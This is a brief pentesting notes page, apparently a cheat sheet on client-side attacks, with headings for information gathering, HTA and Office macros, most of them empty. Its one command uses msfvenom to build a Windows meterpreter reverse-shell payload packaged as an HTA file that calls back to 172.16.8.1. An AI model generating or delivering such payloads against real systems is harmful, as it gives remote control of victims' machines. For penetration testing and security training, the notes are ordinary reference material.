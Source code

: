 # Client-Side Attack

## information gathering

### canary

<https://canarytokens.org/generate>

## HTA

### mshta

VBscript Wscript.Shell powershell.exe

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.8.1 LPORT=4444 -f hta-psh -o shell.hta
```

## Office

### Macro

### OLE
